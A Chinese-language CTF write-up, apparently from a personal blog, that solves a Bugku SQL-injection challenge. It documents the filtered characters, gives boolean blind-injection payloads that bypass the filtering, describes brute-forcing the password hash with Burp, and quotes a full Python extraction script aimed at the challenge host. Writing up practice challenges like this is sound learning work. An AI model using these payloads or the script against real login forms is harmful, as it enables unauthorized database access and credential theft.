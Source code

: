 ```yaml
---
author: "Yiming Shen"
date: 2021-10-24
lastmod: 2021-11-6
title: "Bugku-SQL注入-WriteUP"
tags: [
    "CTF",
    "WriteUP",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
typora-root-url: ..\..\..\..\static\
---
```




题目网址：[sql注入](https://ctf.bugku.com/challenges/detail/id/112.html?page=1)

![image-20211014221914790](/4.Bugku-SQL注入.assets/image-20211014221914790.png)

一个很正经的界面，有实战那味了。

![image-20211014222010532](/4.Bugku-SQL注入.assets/image-20211014222010532.png)

上来先尝试经典组合：

`admin~password`

很幸运，用户名猜中了。

利用单引号检测是否存在SQL注入

`admin' or 1 = 1`

![image-20211014222135986](/4.Bugku-SQL注入.assets/image-20211014222135986.png)

报非法字符，说明存在字符过滤，我们找一下未被过滤的可用字符：

```
'
or
<>(不等号)
#
()
```

空格可用括号代替，等号可用相反的不等号

先尝试是否存在布尔注入：

![image-20211014222551824](/4.Bugku-SQL注入.assets/image-20211014222551824.png)

成功，用户名存在注入~

之后就是利用有错误反馈的布尔盲注语句进行爆密码（因为已知用户名）

```mysql
select password from admin
```

因为屏蔽了逗号，所以`left、substr、if`函数基本无法使用，我们用`ascii`和`mid`函数构造payload

```mysql
1'or((ascii(mid((select(password)from(admin))from(1))))<>9)or(1)#
```

使用burp爆破，从1开始挨个尝试，结果是以md5的形式存储在库中的，手动爆破很困难

![image-20211014225952174](4.Bugku-SQL注入.assets/image-20211014225952174.png)

![image-20211014225933951](/4.Bugku-SQL注入.assets/image-20211014225933951.png)

我们尝试下集束炸弹，让两个参数都作为目标

第一组payload为0-9的两位数组合，第二组payload为a-z和0-9的ASCII码

![image-20211014230625824](/4.Bugku-SQL注入.assets/image-20211014230625824.png)

爆破成功了。。。

接下来就是把各组数据记下来，转换成字母和数字，得到了一串md5密码：

`4dcc88f8f1bc05e7c2ad1a60288481a2`

去md5破解站破解一下，成功解出密码：

`bugkuctf`

![image-20211014230833058](/4.Bugku-SQL注入.assets/image-20211014230833058.png)

结束了……

## 反思

自动化程度不够高，学的python要用上，不要有脚本小子思想。

贴一组大神的python自动脚本，以供学习

```python
#布尔盲注不仅仅是在密码正确和密码错误两种情况下，比如你输入账户，可能出现“账户不存在”和“存在”两种情况，这也是布尔。
import requests
import string,hashlib
url = 'http://114.67.246.176:19665/'
sss = string.digits + (string.ascii_lowercase)
a = ''
for i in range(1, 50):
    flag = 0
    for j in sss:
        payload = "admin'^((ascii(mid((select(password)from(admin))from(%s))))<>%s)^1#" % (i, ord(j))
        #屏蔽了","，改用mid()函数，from表示起始位置
        #ascii()当传入一个字符串时取出第一个字母的ascii()，相当于mid()的第二参数，for取出，也相当于limit
        #<>表示不等号
        #^表示异或
        payload2= "admin123'or((ascii(mid((select(password)from(admin))from(%s))))<>%s)#"%(i,ord(j))
        #由于没有屏蔽or，所以也可以用这个，可以形成一组布尔
        payload3= "admin123'or((ascii(mid((select(database()))from(%s))))<>%s)#"%(i,ord(j))
        
        data = {'username': payload, 'password': 'admin'}
        res = requests.post(url, data=data).text
        if 'username does not exist!' in res:
            a += j
            flag = 1
            print(a)
            break
    if flag == 0:
        break
 
print(a)
```



## 参考题解

[1] [Bugku_sqli write up](https://blog.csdn.net/bin789456/article/details/119851596)
